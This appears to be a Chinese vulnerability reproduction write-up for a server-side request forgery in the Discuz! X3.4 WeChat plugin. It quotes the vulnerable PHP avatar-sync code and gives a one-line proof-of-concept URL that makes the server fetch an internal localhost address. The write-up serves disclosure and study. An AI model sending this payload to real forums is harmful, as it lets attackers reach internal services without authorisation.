


Discuz! X3.4 Weixin Plugin ssrf
===============================

一、漏洞简介
------------

二、漏洞影响
------------

Discuz! X3.4

三、复现过程
------------

`source/plugin/wechat/wechat.class.php` `WeChat`类`syncAvatar`方法：

        static public function syncAvatar($uid, $avatar) {

            if(!$uid || !$avatar) {
                return false;
            }

            if(!$content = dfsockopen($avatar)) {
                return false;
            }

            $tmpFile = DISCUZ_ROOT.'./data/avatar/'.TIMESTAMP.random(6);
            file_put_contents($tmpFile, $content);

            if(!is_file($tmpFile)) {
                return false;
            }

            $result = uploadUcAvatar::upload($uid, $tmpFile);
            unlink($tmpFile);

            C::t('common_member')->update($uid, array('avatarstatus'=>'1'));

            return $result;
        }

`source/plugin/wechat/wechat.inc.php`
中调用了`WeChat::syncAvatar`，直接用`$_GET['avatar']`作为参数传进去：

    ......

    elseif(($ac == 'register' && submitcheck('submit') || $ac == 'wxregister') && $_G['wechat']['setting']['wechat_allowregister']) {

            ......

            $uid = WeChat::register($_GET['username'], $ac == 'wxregister');

            if($uid && $_GET['avatar']) {
                WeChat::syncAvatar($uid, $_GET['avatar']);
            }

    }

不过因为这里用到了微信登录的插件，所以要利用的话需要目标站开启微信登录：

这里 SSRF 的构造很简单，直接在`avatar`参数构造 url
即可（只是注意`wxopenid`参数每次请求都要足够随机保证没有重复，如果重复的话代码是无法走到发起请求的逻辑的）：

### poc

    http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http://localhost:9090/dz-weixin-plugin-ssrf&wxopenid=dont_be_evil

